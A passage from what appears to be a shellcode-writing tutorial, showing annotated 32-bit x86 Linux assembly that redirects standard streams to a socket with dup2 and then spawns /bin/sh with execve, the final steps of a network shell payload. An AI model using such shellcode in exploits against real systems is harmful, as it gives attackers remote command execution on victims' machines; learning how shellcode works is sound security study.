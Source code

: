 ## Setting stdin, stdout and stderr

So with most in not all *NIX systems, you have: stdin, stdout and stderr. The way systems interperet it is as integers: 0x0, 0x1, 0x2.
These 3 determine the accepted data streams. It's imperative that our shell accepts all 3 streams, so let's go ahead and do just that!

This can be achieved with the syscall "dup2(sockfd,(stderr,stdout,stdin))".

In assmebly that looks like this:

```
; [+] dup2(): setting stdin, stdout, stderr propterties to sockfd: (0x2,0x1,0x0)
        ; int dup2(int oldfd, int newfd);
        ; EAX = dup2
        ; EBX = sockfd
        ; ECX = (0x2,0x1,0x0)-1) decrementing loop
        xor    ecx,ecx  ; 
        mov    cl,0x2   ; loop counter for dup2. decrementing loop will look like: (0x2,0x1,0x00)
dup2_loop:
        push   0x3f     ; using push/pop this time for fun. same as using mov eax,0x3f          :       [vim /usr/include/i386-linux-gnu/asm/unistd_32.h]
        pop    eax      ; setting EAX to dup2() syscall                                         :       [dup2 --> REF6]
        int    0x80     ; [*] Calling: dup2(sockfd, (stderr,stdout,stdin))
        dec    ecx      ; decrementing loop counter for each iteration
        jns    dup2_loop;  loop up to dup2_loop if SF=0 (If ECX is positive int (SF=0) then loop, else if negative (0,-1 etc) then (SF=1) continue down)
```

## Our shell

We've got all our pieces in place now, all we need is to execute a shell on connection! 

This can be achieved with the syscall "execve(/bin//sh0x00)".

I think a nice simple "/bin/sh" will work perfectly for our needs.

In assmebly that looks like this:

```
; [+] execve(): executing /bin//sh      
        ; int execve(const char *pathname, char *const argv[], char *const envp[])
        ; EAX = execve
        ; EBX = /bin//sh
        ; ECX = args followed by 0x00
        xor    eax,eax          ;
        mov    al,11            ; setting EAX to execve syscall
        xor    ebx,ebx          ;
        push   ebx              ; execve requires NULLBYTE after arguments (0x00)               :       [execve --> REF7]
        push   0x68732f2f       ; sh//
        push   0x6e69622f       ; nib/ - Pushing /bin//sh onto stack in reverse for EBX         :       [execve --> REF7]
        mov    ebx,esp          ; setting EBX to address of /bin//sh
        xor    ecx,ecx          ;
        xor    esi,esi          ;
	xor    edx,edx
        int    0x80             ; [*] Calling: execve(/bin//sh0x00)
```
